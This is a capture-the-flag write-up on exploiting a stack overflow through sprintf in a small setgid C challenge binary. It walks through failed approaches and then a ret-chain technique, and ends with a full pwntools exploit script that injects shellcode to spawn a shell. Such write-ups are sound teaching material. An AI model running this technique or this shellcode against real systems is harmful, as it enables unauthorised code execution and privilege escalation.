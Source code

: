 ```yaml
---
layout: post
title:  "Overflowme Writeup"
date:   2019-01-02 00:44:51 +0800
categories: jekyll update
---
```


## 0x00 Introduction

Actually this problem is not hard, but I didn't get the point at the beginning, so it spent me about a few hours... Therefore, I wrote this writeup to record and conclude for myself.

## 0x01 Problem

obvious stack overflow，as shown

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "inspection.h"
void vuln(char *str) {
    char buf[770];
    sprintf(buf, "Hello %s", str);
    puts(buf);
    fflush(stdout);
    return;
}

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv) {

    if (argc != 2) {
        printf("Usage: %s [name]\n", argv[0]);
        return 1;
    }
    be_nice_to_people();
    vuln(argv[1]);
    return 0;
}
```

The input is the argv[1], so to debug using gdb, we need to do this in pwntool python script

```python
sh = gdb.debug(["./overflowme", payload], "b vuln")
```

instead of

```python
sh = process(["./overflowme", payload])
```

when executing the process

## 0x02 Approach

### find jmp esp/jmp ebx/jmp ebp/call esp/call ebx/call ebp

When vuln terminates, where control flow can be hijacked:

![](/images/overflowme_register.png)

ebx/esp/ebp points to stack, which means that we can fill this address using our payload. However, there is no such instruction in this program since the program is so small.

Then, I was thinking about ROP to move value of ebx to eax/edx and return to call eax/edx, which this program has.

However, again, the program is so small that we cannot find such ROP chain.

Then I found that data segment of this program is both writable and executable, and we know address of data segment, so I would like to find something like DWORD SHOOT to construct such instruction in data segment and return to the instruction that I created.

This program is small, the only possible DWORD SHOOT is using register ebp as base address register, so we need to change ebp to pointer in data segment. However, after those instruction, "leave" instruction is executed, so esp=ebp, but ebp points to data segment, so return address is not controlled by me anymore. Same for the method to shoot esp into data segment and use push to change data in data segment. \(This one is even more impossible, since change esp to somewhere uncontrollable cannot help us in constructing ROP\)

What about using sprintf? This can write data into data segment if we let dst pointer point to data segment. However, our we don't know address of stack, but our payload is in stack, so we cannot do this.

What about using %x in data segment to shoot something into code segment? In this way what we need is value that can be controlled instead of address pointing to out payload. However, the possible bytes are limited, alpha shellcode is possible, but quite complicated to construct. \(will try this if I have time later\)

At this point, I realized that I was thinking in the wrong direction, since I do not think this question is hard like that.

### find ROP that output GOT and input system address

I have used this technique in solving caas, in which I constructed ROP in heap and the address of heap is known. Thus, I can manipulate ebp in the way that leave/ret will help us to execute next call. However, in this case, stack address is unknown, so we cannot do this. 

However, in this case, we have "add,esp xxx; pop xxx; pop xxx; ret" \(There is no leave\). Thus we can execute sequence of call without need to know stack address.

However, there is not such function imported as read/scanf, so we cannot do this.

### utilize data in stack

Utilizing data in register cannot succeed, so why not utilize data in stack? It is possible.

![](/images/overflowme_stack.png)

This is stack when ret in vuln is executed. Nice! The 2nd dword in stack points to our payload since argument of vuln is pointer to our input, so as long as we make return address to be a ret, double ret will make eip jump to our shellcode!

What's the problem here? The overflow function is sprintf, in which there is '\0' added in the end, so least significant byte of pointer to our input will be changed to 0, so this address is no longer our input anymore but something previous, which causes segmentation fault before shellcode is reached.

How to solve this? If we can find a ret with address 0x080400xx or 0x08048600 \(partly overflow\), we can ret to that ret, so pointer to out input will not be corrupted. Unluckily, there is no such ret. 

However, we can do several sequence of ret until next dword, if least significant byte being cleared to 0, will point to our shellcode.

Actually,  if we clear LSB of 0xffffcb78 to get 0xffffcb00, we can find that

![](/images/overflowme_see.png)

Wow! This can be our shellcode if we put shellcode in the end of payload!

Thus, final exp is

```python
from pwn import *
g_local = False
shellcode = asm("sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;" + shellcraft.i386.linux.sh())
# sub esp is to prevent the data being pushed into stack in shellcode corrupt shellcode itself, important in NX disabled exploitation
overflow_len = 0x308
if g_local:
	padding = 0#x18
else:
	padding = 0#x28

payload = ("A" * (overflow_len - len(shellcode) - padding)) + shellcode + "A"*padding + p32(0x8048615) * 3
# 0x8048615 is address of ret

if g_local:
	#sh = gdb.debug(["./overflowme", payload], "b vuln")
	sh = process(["./overflowme", payload])
else:
	sh = process(["/problems/b0b419078e5ac70c47a50b04b2aae2d9/overflowme", payload])

print hex(len(payload))
print payload

sh.interactive()
```


